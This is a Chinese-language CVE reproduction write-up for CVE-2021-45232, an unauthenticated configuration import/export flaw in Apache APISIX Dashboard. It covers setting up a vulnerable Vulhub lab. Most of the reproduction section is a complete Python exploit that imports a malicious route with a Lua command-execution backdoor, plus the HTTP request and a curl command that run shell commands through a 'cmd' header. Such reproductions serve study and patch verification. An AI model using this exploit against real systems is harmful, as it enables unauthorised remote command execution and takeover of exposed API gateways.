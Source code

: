 # CVE-2021-45232

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Apache APISIX Dashboard API权限绕过导致RCE

## **0x00 漏洞描述**

Apache APISIX 是一个动态、实时、高性能的 API 网关， 提供负载均衡、动态上游、灰度发布、服务熔断、身份认证、可观测性等丰富的流量管理功能。Apache APISIX Dashboard 使用户可通过前端界面操作 Apache APISIX。

Apache APISIX Dashboard 2.10.1版本前存在两个API`/apisix/admin/migrate/export`和`/apisix/admin/migrate/import`，他们没有经过`droplet`框架的权限验证，导致未授权的攻击者可以导出、导入当前网关的所有配置项，包括路由、服务、脚本等。攻击者通过导入恶意路由，可以用来让Apache APISIX访问任意网站，甚至执行LUA脚本。

## **0x01 影响版本**

Apache APISIX Dashboard 2.7 - 2.10 版本

## 0x02 漏洞搭建

Vulhub执行如下命令启动一个有漏洞的Apache APISIX Dashboard 2.9：

```
cd vulhub/apisix/CVE-2021-45232/
docker compose up -d
```

然后访问`http://your-ip:9000/`即可看到Apache APISIX Dashboard的登录页面。

![Untitled](image/Untitled.png)

## **0x03 漏洞复现**

利用`/apisix/admin/migrate/export`和`/apisix/admin/migrate/import`两个Apache APISIX Dashboard提供的未授权API，我们可以简单地导入一个恶意配置文件，其中包含我们构造的LUA脚本

```
http://xxx.xxx.xxx.xxx:9000/apisix/admin/migrate/export
```

![Untitled](image/Untitled%201.png)

**利用该脚本apisix_dashboard_rce.py**

```
#!/usr/bin/env python3
import zlib
import json
import random
import requests
import string
import sys
from urllib3.exceptions import InsecureRequestWarning

# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

eval_config = {
    "Counsumers": [],
    "Routes": [
        {
            "id": str(random.randint(100000000000000000, 1000000000000000000)),
            "create_time": 1640674554,
            "update_time": 1640677637,
            "uris": [
                "/rce"
            ],
            "name": "rce",
            "methods": [
                "GET",
                "POST",
                "PUT",
                "DELETE",
                "PATCH",
                "HEAD",
                "OPTIONS",
                "CONNECT",
                "TRACE"
            ],
            "script": "local file = io.popen(ngx.req.get_headers()['cmd'],'r') \n local output = file:read('*all') \n file:close() \n ngx.say(output)",
            "status": 1
        }
    ],
    "Services": [],
    "SSLs": [],
    "Upstreams": [],
    "Scripts": [],
    "GlobalPlugins": [],
    "PluginConfigs": []
}

def random_str():
    return ''.join(random.choices(string.ascii_letters + string.digits, k=6))

def calc_crc(data):
    crc32 = zlib.crc32(data) & 0xffffffff
    return crc32.to_bytes(4, byteorder="big")

def export_data(url):
    r = requests.get(url + "/apisix/admin/migrate/export", verify=False)
    return r.text[:-4]

def import_data(url, data):
    data = json.dumps(data).encode()
    crc32 = calc_crc(data)

    files = {"file": ("data", data + crc32, "text/data")}
    resp = requests.post(url + "/apisix/admin/migrate/import", files=files, verify=False)
    # print(resp.text)
    if resp.json().get("code", -1) == 0:
        return True
    else:
        return False

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("python " + sys.argv[0] + " http://127.0.0.1:9000")
        exit()
    
    url = sys.argv[1]
    if url.endswith("/"):
        url = url[:-1]

    uri = random_str()
    eval_config["Routes"][0]["uris"] = [ "/" + uri]
    eval_config["Routes"][0]["name"] = uri

    if import_data(url, eval_config):
        print("attack success")
        print("uri is: " + "/" + uri)
    else:
        print("attack error")
```

![Untitled](image/Untitled%202.png)

添加完恶意路由后，你需要访问Apache APISIX中对应的路径来触发前面添加的脚本。值得注意的是，Apache APISIX和Apache APISIX Dashboard是两个不同的服务，Apache APISIX Dashboard只是一个管理页面，而添加的路由是位于Apache APISIX中，所以需要找到Apache APISIX监听的端口或域名。

在当前环境下，Apache APISIX监听在9080端口下。我们发送数据包：

```
GET /XcIo2q HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0
```

![Untitled](image/Untitled%203.png)

也可以通过之前的POC实现命令执行：

```
curl http://your-ip:9080/XcIo2q -H "cmd: id"
```

![Untitled](image/Untitled%204.png)

可见，我们在Header中添加的`CMD`头中的命令已被执行。

这个漏洞是Apache APISIX Dashboard的漏洞，而Apache APISIX无需配置IP白名单或管理API，只要二者连通同一个etcd即可。